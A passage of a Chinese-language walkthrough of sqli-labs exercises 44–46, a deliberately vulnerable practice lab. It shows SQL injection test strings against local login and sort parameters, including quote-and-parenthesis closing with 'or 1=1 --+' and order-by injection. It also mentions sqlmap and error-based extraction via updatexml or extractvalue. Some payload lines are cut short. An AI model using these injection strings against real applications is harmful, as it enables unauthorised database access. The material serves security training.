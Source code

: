 发现这题没有回显了，使用boolenBased盲注。

payload:

> 64 –+\&mysubmit=Login

可以写脚本跑或是sqlmap跑

## Less-45

### POST括号字符型层次化查询盲注

测试：

> login\_user=root\&login\_password=0’ or 1=1 –+\&mysubmit=Login
>
> login\_user=root\&login\_password=0’) or 1=1 –+\&mysubmit=Login

测试出sql语句是`')`闭合，payload与上题类似。

payload：

> 64 –+\&mysubmit=Login

## Less-46

### GET数字型基于错误的orderby从句注入

测试：

> http://localhost/Less-46/?sort=1%27%20or%201=1%20--+"
>
> http://localhost/Less-46/?sort=1%20%20or%201=1%20--+"

判断为数字型注入

> http://localhost/Less-46/?sort=1%20%20desc"

orderby从句注入

源码：

![](/img/sql/order.png)

`order by`从句的注入，查了一下，感觉跟之前的也是大同小异。有报错还是可以使用`updatexml`或是`extractvalue`。
